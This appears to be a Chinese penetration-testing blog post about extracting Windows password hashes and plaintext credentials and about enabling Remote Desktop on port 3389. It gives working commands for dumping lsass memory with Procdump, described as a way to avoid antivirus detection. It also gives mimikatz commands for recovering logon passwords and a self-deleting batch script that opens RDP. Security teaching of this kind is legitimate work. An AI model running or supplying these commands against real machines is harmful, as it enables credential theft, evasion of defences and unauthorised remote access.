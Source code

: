 +++
date = "2016-08-08T08:28:27+08:00"
description = ""
draft = false
tags = ["intranet"]
title = "导出Windows主机密码与开启3389"
topics = ["Pentest"]

+++

### 0x00 导出主机密码hash
* 关于Windows的hash
    * 早期IBM设计的LM Hash算法存在弱点，微软在保持向后兼容性的同时提出了自己的挑战响应机制，即NTLM Hash
    * Windows hash由LM HASH和NT HASH两部分组成，形式为：用户名称:RID:LM-HASH值:NT-HASH值
    * 存储Windows hash的sam文件位置为：C:\windows\system32\config\SAM

* 导出hash条件
    * administrator以上权限

* 导出hash工具
    * wce
    * gethash
    * hashdump
    * SAMInside

* 上传工具得到hash
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![上传wce](/img/post/privilge_escalation_win_upload_wce.png)
![得到hash](/img/post/privilge_escalation_win_get_hash.png)

* 在线网站解密hash
    * LM Hash和NT Hash得到一个就可以解密，不过两个都得到的话解密的成功率会更高
    * 可以在[http://www.objectif-securite.ch/ophcrack.php](http://www.objectif-securite.ch/ophcrack.php?_blank)解密
    ![解出密码](/img/post/privilge_escalation_win_get_pwd.png)

### 0x01 导出主机密码
* 条件
    * administrator以上权限
    * 当前管理员没有注销登陆(可以通过query user命令看出)

* 工具
    * mimikatz
    * getpass

* 上传工具得到密码
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![查看管理员是否注销登陆](/img/post/privilge_escalation_win_query_user.png)
![上传getpass](/img/post/privilge_escalation_win_upload_getpass.png)
![得到密码1](/img/post/privilge_escalation_win_getpass1.png)
![得到密码2](/img/post/privilge_escalation_win_getpass2.png)

* 导出hash本地得到密码  
    若mimikatz和getpass这类软件被杀的话可以先用Procdump导出lsass.dmp，然后本地用mimikatz解密，Procdump是微软官方的软件，应该不会被杀
    * 上传Procdump.exe导出文件  
        Procdump.exe -accepteula -ma lsass.exe lsass.dmp
    * 下载lsass.dmp后用本地mimikatz解密  
        先输入：mimikatz.exe "sekurlsa::minidump lsass.dmp"  
        后输入：sekurlsa::logonpasswords

### 0x02 开启3389
* 直接使用注册表
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_reg.png)
![开3389端口](/img/post/privilge_escalation_win_open_3389.png)
![成功开启3389端口](/img/post/privilge_escalation_win_open_3389_success.png)

* 写一个批处理也行
```
# 3389.bat内容如下：
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
del 3389.bat
```
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_bat.png)
